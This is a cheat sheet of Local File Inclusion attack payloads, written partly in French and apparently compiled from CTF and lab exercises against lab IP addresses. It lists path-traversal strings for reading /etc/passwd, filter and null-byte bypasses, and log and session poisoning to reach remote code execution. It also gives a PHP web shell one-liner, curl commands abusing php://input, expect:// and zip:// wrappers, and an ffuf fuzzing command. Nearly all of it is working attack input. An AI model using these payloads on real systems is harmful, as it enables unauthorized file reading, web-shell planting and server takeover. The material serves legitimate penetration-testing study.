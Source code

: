 ### LFI
#methodo:
• Read /etc/passwd and potentially find SSH Keys or know valid user names for a password spray attack
• Find other services on the box such as Tomcat and read the tomcat-users.xml file
• Discover valid PHP Session Cookies and perform session hijacking
• Read current web application configuration and gain access to the secret used to protect cookies. In some frameworks, this cookie gets unserialized in an unsafe manner, and just reading the configuration can lead to remote code execution


#basic:
=====
../../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
php://filter/read=/resource=/etc/passwd

#extention bypass:
============
language=/etc/passwd%00
/etc/passwd\x00

#LFI to RCE:
========
http://134.209.184.216:32415/index.php?language=<?php system($_GET['cmd']); ?>
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././var/log/apache2/error.log&cmd=id

/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ (injection possible via “User-Agent” sur les vieux serveurs)
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3 #la chaine de char correspond au cookie
/proc/self/fd/(brute force int)

#session poisoning: (faire les 2 requetes dans l'ordre)
============
http://134.209.184.216:32415/index.php?language=<?php system($_GET['cmd']); ?>
http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

#exemple curl:
=========
curl -s -X POST --data "<?php system('id'); ?>" "http://143.110.174.100:30453/index.php?language=php://input" |grep uid
curl http://10.10.10.151/blog/?lang=php://input -d '<? system('id');?>'

exemple CTF: 
=========
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././etc/passwd
http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd
http://165.232.47.168:30259/index.php?page=./industries 
http://165.232.47.168:30259/index.php?page=index 
http://165.232.47.168:30259/index.php?page=php://filter/read=convert.base64-encode/resource=index

user-agent (que l'on retrouve dans les logs)
user-agent: <?php system($_GET['cmd']); ?>
http://165.232.47.168:30272/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id


IIS:
==
http://10.10.10.151/blog/?lang=//localhost/c$/Windows/win.ini

LFI to RCE
======
envoyer du code PHP dans les logs ou les mail puis executer le code via la LFI
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././var/log/apache2/error.log

Wrapper
======
 http:// ftp:// https:// 


| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

zip:


pour aller plus loin:

ffuf -w ../SecLists-master/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt:FUZZ -u http://127.0.0.1:1080/nav.php?page=FUZZ -fs 0



